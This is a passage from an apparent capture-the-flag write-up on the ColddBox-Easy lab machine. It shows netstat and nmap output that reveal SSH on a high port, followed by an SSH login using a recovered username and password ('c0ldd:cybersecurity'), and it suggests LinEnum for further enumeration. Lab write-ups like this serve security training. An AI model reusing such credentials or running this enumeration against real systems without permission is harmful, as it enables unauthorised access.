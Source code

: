 ```
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
hmm yeah...some ways with sudo!

```
c0ldd@ColddBox-Easy:/var/www/html$ netstat -tunlp
netstat -tunlp
(No todos los procesos pueden ser identificados, no hay información de propiedad del proceso
 no se mostrarán, necesita ser superusuario para verlos todos.)
Conexiones activas de Internet (solo servidores)
Proto  Recib Enviad Dirección local         Dirección remota       Estado       PID/Program name
tcp        0      0 0.0.0.0:4512            0.0.0.0:*               ESCUCHAR    -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               ESCUCHAR    -               
tcp6       0      0 :::4512                 :::*                    ESCUCHAR    -               
tcp6       0      0 :::80                   :::*                    ESCUCHAR    -               
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -    
```

Aha! seems like I missed a port earlier! SSH is open on a high port

```
PORT     STATE  SERVICE REASON       VERSION
3306/tcp closed mysql   conn-refused
4512/tcp open   ssh     syn-ack      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
|   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

nice! we have a quicker access with `c0ldd:cybersecurity`!

```
└──╼ $ssh c0ldd@10.10.231.210 -p 4512
The authenticity of host '[10.10.231.210]:4512 ([10.10.231.210]:4512)' can't be established.
ECDSA key fingerprint is SHA256:xDx1I3ynEOfBDWPnJPLQG+C4XjZhBw/6Rig/bz2tMxM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.231.210]:4512' (ECDSA) to the list of known hosts.
c0ldd@10.10.231.210's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


Pueden actualizarse 129 paquetes.
92 actualizaciones son de seguridad.


Last login: Mon Nov  8 13:20:08 2021 from 10.0.2.15
c0ldd@ColddBox-Easy:~$ 
well..enumeration is always the key ! I also checked for processes, key files permissions...

"information is power" so you can add `linenum` to get more
```
